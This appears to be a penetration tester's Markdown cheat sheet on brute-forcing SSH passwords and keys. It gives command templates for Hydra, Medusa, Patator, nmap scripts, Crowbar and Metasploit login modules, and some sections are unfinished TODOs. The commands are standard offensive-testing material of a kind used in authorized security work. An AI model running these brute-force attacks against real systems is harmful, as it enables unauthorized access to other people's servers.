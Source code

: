 # SSH

## 01 - Bruteforce Passwords

### 1.1 - Hydra

```
$ hydra ssh -U

$ hydra -l <username> -P passwords.lst ssh://<IP>
```

### 1.2 - Medusa

```
$ medusa -h <IP> -u <username> -p <password> -M ssh
```

### 1.3 - Patator

```
$ patator ssh_login -t <int> host=<IP> port=22 user=<username> password=FILE0 0=passwords.lst -x ignore:mesg='Authentication failed.'
```

### 1.4 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-brute --script-args "userdb=users.lst,passdb=pass.lst,ssh-brute.timeout=<seconds>s" <IP>
```

### 1.5 - Metasploit

TODO: Fill this info

- Bruteforce SSH credentials

```
msf > use auxiliary/scanner/ssh/ssh_login

msf auxiliary(scanner/ssh/ssh_login) > options

msf auxiliary(scanner/ssh/ssh_login) > set
```

## 02 - Bruteforce SSH Keys

### 2.1 - Public SSH Keys

#### 2.1.1 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'},publickeys={'./id_rsa1.pub', './id_rsa2.pub'}" <IP>
```

#### 2.1.2 - Metasploit

Note: Any file extension that ends with `.pub`.

```
msf > use auxiliary/scanner/ssh/ssh_identify_pubkeys

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > options

Module options (auxiliary/scanner/ssh/ssh_identify_pubkeys):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   KEY_FILE                           yes       Filename of one or several cleartext public keys.
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set user_file /path/to/users.lst

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set key_file /path/to/ssh_public_key.pub

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set threads 4

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > run -j
```

### 2.2 - Private SSH Keys

#### 2.2.1 - Hydra

TODO: Provide a syntax to bruteforce ssh keys

```
$ hydra sshkey -U
```

#### 2.2.2 - Crowbar

TODO: Provide a syntax of sshkey to brute force targets with crowbar

```
$ crowbar -b sshkey -s <IP>/32 -u <username> -k /path/to/ssh_key_file
```

#### 2.2.3 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" <IP>
```

#### 2.2.4 - Metasploit

```
msf post(multi/gather/ssh_creds) > use auxiliary/scanner/ssh/ssh_login_pubkey

msf auxiliary(scanner/ssh/ssh_login_pubkey) > options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PASS                           no        Passphrase for SSH private key(s)
   KEY_PATH                           no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub
                                                " will be skipped. Duplicate private keys will be ignored.
   PRIVATE_KEY                        no        The string value of the private key that will be used. If you are using MSFConsole, this value shou
                                                ld be set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set username <username>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set private_key file:/path/to/ssh_key

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass <passphrase>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set threads <int>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set stop_on_success <true | false>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > run -j
```

---
## References

### Backlinks

- [[Crowbar|Crowbar]]

### Null Byte

- [Null Byte: Gain SSH Access to Servers by Brute-Forcing Credentials](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

### Hacking Articles

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

- [Hacking Articles: SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

### Rapid7

- [Rapid7: Metasploit Framework - Auxiliary Scanner SSH Login Pubkey](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login_pubkey.md)